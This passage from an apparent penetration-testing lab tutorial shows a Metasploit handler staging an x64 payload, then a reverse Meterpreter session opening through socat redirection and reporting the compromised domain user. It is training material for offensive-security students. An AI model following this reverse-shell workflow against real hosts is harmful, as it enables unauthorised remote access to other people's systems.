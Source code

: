 We can test this by running our payload on the windows host again, and we should see a network connection from the Ubuntu server this time.

#### Establishing the Meterpreter Session

  Socat Redirection with a Reverse Shell

```shell-session
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (10.10.14.18:80 -> 127.0.0.1 ) at 2022-03-07 11:08:10 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```